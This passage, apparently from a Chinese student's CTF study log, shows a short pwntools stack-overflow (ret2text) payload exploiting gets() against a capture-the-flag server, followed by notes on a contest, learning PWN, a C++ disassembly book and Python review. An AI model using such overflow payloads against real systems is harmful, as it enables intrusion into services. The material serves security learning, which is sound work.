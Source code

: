 gets函数不会限制输入的长度，这也是我们进行攻击的着手点

由此可构造payload：
```python
from pwn import *

p = remote(‘node4.anna.nssctf.cn’, 28456)

payload = b’a’ * (0x30 - 0x4) + p64(0x41348000)

p.sendline(payload)
p.interactive()
```
之后再用cat flag指令获取即可

## 参加启航杯的比赛
解出的题目已补充在上文的writeup中
## 开始学习PWN的内容
作为Re手，学习PWN也是很重要的，在学长的指导下我从ret2text开始着手，了解了栈溢出等概念，在自己的虚拟机上配置了PWN的环境，并做了几道例题，过程已总结在了上面WP部分
## 结束了C++反汇编的学习
将《C++反汇编与逆向分析》一书学习完毕，收获颇丰，对C++的编译过程有了更深的理解
## 复习Python
复习了之前学习Python的一些基础概念，主要是因为隔了太久遗忘的比较多了